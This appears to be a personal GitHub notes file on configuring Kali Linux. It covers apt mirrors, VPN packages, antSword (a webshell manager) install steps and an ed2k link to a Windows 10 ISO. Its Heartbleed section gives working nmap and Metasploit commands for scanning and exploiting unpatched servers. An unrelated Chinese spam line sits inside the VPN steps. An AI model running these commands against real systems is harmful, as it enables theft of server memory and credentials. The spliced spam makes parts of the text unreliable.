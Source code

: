 #problem while using kali

## apt source.list
```
#tsinghua mirrors
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib

deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
```

## vpn 
1. `apt-get install network-manager-openvpn-gnome network-manager-pptp network-manager-pptp-gnome network-manager-strongswan network-manager-vpnc network-manager-vpnc-gnome`
2. restart the network-manager `service network-manager restart`
3. [获取网址]
如果您需要获取本站最新网址，可随时发任意邮件至  GreenDizhi@gmail.com  系统将自动回复最新网址到您的邮箱。

## heartbleed
nmap+msfconsole</br>

learn from http://blog.163.com/xiao106347/blog/static/215992078201464059117/

非常实用的hack工具组合，首先得升级msfconsole至最新版，然后给nmap添加一个针对heartbleed的扫描脚本，用来发现心脏出血漏洞：
```
cd /usr/share/nmap/scripts/
wget https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse
cd /usr/share/nmap/nselib/
wget https://svn.nmap.org/nmap/nselib/tls.lua
nmap --script-updatedb
```
添加成功之后扫描一个没有更新openssl的网站：
`nmap -n -p 443 -Pn --script=ssl-heartbleed servers_ip`
出现如下漏洞信息：

然后`msfconsole`载入 `auxiliary/scanner/ssl/openssl_heartbleed` 模块：
```
msf > use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS xxx_ip
set RPORT 443
set VERBOSE true
exploit
```

#

## antSword
项目地址：`https://github.com/antoor/antSword`
主要问题是安装过程：参照 http://my.oschina.net/blogshi/blog/260953 
```
    这就妥妥的了，node文件夹具体放在哪，叫什么名字随你怎么定。然后设置全局：

ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/node /usr/local/bin/node
ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/npm /usr/local/bin/npm

    这里/home/kun/mysofltware/这个路径是你自己放的，你将node文件解压到哪里就是哪里。

```

## virtualbox
win 10 iso
`ed2k://|file|cn_windows_10_enterprise_2015_ltsb_x64_dvd_6848425.iso|3907538944|38E47AB92B6D97DF2BE602BBC9969D34|/`

